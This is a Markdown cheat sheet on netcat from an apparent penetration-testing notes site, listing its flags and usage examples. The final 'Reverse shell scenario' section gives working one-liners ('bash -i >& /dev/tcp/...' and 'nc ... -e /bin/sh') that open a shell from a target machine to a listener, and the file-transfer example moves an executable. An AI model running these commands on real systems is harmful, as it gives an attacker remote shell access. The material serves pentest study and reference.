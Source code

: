 ```yaml
---
title: "nc"
# pre : '<i class="fas fa-code"></i> '
description: "Netcat, arbitrary TCP and UDP connections and listens."
date: 2020-04-09T13:47:11+02:00
# hidden : true
# draft : true
weight: 0
# tags : ['']
---
```


## Netcat

### Usage

```plain
nc [-46CDdFhklNnrStUuvZz] [-I length] [-i interval] [-M ttl]
```

### Flags

```plain
      [-m minttl] [-O length] [-P proxy_username] [-p source_port]
      [-q seconds] [-s source] [-T keyword] [-V rtable] [-W recvlimit] [-w timeout]
      [-X proxy_protocol] [-x proxy_address[:port]]       [destination] [port]
    Command Summary:
        -4      Use IPv4
        -6      Use IPv6
        -b      Allow broadcast
        -C      Send CRLF as line-ending
        -D      Enable the debug socket option
        -d      Detach from stdin
        -F      Pass socket fd
        -h      This help text
        -I length   TCP receive buffer length
        -i interval Delay interval for lines sent, ports scanned
        -k      Keep inbound sockets open for multiple connects
        -l      Listen mode, for inbound connects
        -M ttl      Outgoing TTL / Hop Limit
        -m minttl   Minimum incoming TTL / Hop Limit
        -N      Shutdown the network socket after EOF on stdin
        -n      Suppress name/port resolutions
        -O length   TCP send buffer length
        -P proxyuser    Username for proxy authentication
        -p port     Specify local port for remote connects
        -q secs     quit after EOF on stdin and delay of secs
        -r      Randomize remote ports
        -S      Enable the TCP MD5 signature option
        -s source   Local source address
        -T keyword  TOS value
        -t      Answer TELNET negotiation
        -U      Use UNIX domain socket
        -u      UDP mode
        -V rtable   Specify alternate routing table
        -v      Verbose
        -W recvlimit    Terminate after receiving a number of packets
        -w timeout  Timeout for connects and final net reads
        -X proto    Proxy protocol: "4", "5" (SOCKS) or "connect"
        -x addr[:port]  Specify proxy address and port
        -Z      DCCP mode
        -z      Zero-I/O mode [used for scanning]
    Port numbers can be individual or ranges: lo-hi [inclusive]
```

### Examples

#### Check if port on target is open

```plain
$ nc -nv 10.10.10.1 25

Connection to 10.10.10.1 25 port [tcp/*] succeeded!
[...]
```

#### Create a Netcat listener

This listener will listen on specific IP and port. IP can be removed if any interface is needed.

```plain
nc -lvp 10.10.10.2 80
```

#### Transferring files

Receiver

```plain
nc -nlvp 10.10.10.2 4444 > incomming.exe
```

Sender

```plain
nc -nv 10.10.10.2 4444 < /Downloads/wget.exe
```

#### Reverse shell scenario

Receiver

```plain
nc -nlvp 10.10.10.2 4444
```

Target machine

```plain
bash -i >& /dev/tcp/10.10.10.2/4444 0>&1
```

OR target machine

```plain
nc 10.10.10.2 4444 -e /bin/sh
```

### URL list

- [Linux.die.net](https://linux.die.net/man/1/nc)
